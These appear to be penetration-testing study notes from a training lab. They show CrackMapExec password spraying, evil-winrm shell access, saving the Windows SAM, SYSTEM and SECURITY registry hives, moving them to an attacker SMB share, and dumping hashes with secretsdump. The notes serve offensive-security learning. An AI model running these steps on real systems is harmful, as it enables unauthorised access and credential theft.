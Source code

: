 # The use of CrackMapExec

The default command 
    
    crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>

Example 

    [!bash!]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

    WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
    WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
    WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)

To connect to smb 

    [!bash!]$ crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares-


To connect to WinRm, a script called evilWinRm allows the connection to windows server.

    [!bash!]$ evil-winrm -i <target-IP> -u <username> -p <password>
    [!bash!]$ evil-winrm -i 10.129.42.197 -u user -p password

    Evil-WinRM shell v3.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\user\Documents>

# Dump windows hashes

hklm\sam	Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.

hklm\system	Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.

hklm\security	Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.

    C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

    The operation completed successfully.

    C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

    The operation completed successfully.

    C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

    The operation completed successfully.

Then transfer them offline, using smbserver for example:

    sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

In Windows:

    C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

    C:\> move security.save \\10.10.15.16\CompData
            1 file(s) moved.

    C:\> move system.save \\10.10.15.16\CompData
            1 file(s) moved.

And then to read them, we can use secretdump.py 

    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL